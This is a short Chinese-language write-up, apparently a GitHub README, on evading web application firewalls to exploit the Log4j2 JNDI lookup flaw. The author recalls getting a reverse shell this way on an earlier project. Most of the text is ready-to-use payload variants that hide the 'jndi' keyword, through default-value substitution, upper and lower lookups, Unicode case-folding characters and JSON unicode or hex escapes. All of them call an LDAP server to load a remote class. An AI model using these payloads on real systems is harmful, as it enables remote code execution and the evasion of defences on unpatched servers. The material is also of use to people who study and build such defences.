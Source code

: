 
##  0x00 原理介绍
     
         去年有个项目，有WAF，然后进行了绕过，成功反弹，现在在回忆记录一下。
     
     log4j2输出日志的时候除了常见的变量替换，还支持远程获取相应的内容，获取远程内容是通过lookup功能提供，
     
     ## 变量替换如下
     
     logger.info("user name: {}, alias name: {}", userName, aliasName)
     
     获取远程内容支持jndi
     
## WAF绕过总结

         从log4j-2.15.0-rc2开始，默认关闭了Lookups功能，需要修改配置才能结合各种绕过方式，所以意义不大，2.16.0开始，移除了Lookups功能，然后在受影响版本log4j2.0-beta9 <=        版本 log4j <= 2.14.1中，由于waf多拦截jndi等关键字，可通过如下几种方式进行绕过。
          :- 是一个赋值关键字，如果程序处理到 ${aaaa:-bbbb} 这样的字符串，处理的结果将会是 bbbb，借助此特性，可构造如下waf绕过
     logg.info("${${::-J}ndi:ldap://127.0.0.1:1389/Calc}");
          Lookups中除了jndi还存在Upper、Lower等方式，可变换大小写，可构造如下waf绕过
     logg.info("${${lower:J}ndi:ldap://127.0.0.1:1389/Calc}");
     logg.info("${${upper:j}ndi:ldap://127.0.0.1:1389/Calc}");      
          
          同时也可以利用一些特殊字符的大小写转化的问题
     ı => upper => i (Java 中测试可行)
     ſ => upper => S (Java 中测试可行)
     İ => upper => i (Java 中测试不可行)
     K => upper => k (Java 中测试不可行)
     logg.error("${jnd${upper:ı}:ldap://127.0.0.1:1389/Calc}");
          
          现在数据传输很多都是 json 形式，所以在 json 中我们也可以进行尝试，像 Jackson 和 fastjson 又有 unicode 和 hex 的编码特性，所以就可以尝试编码绕过
     {"key":"\u0024\u007b"}
     {"key":"\x24\u007b"}
     
 ## 参考
    https://blog.csdn.net/qq_40640917/article/details/128613592
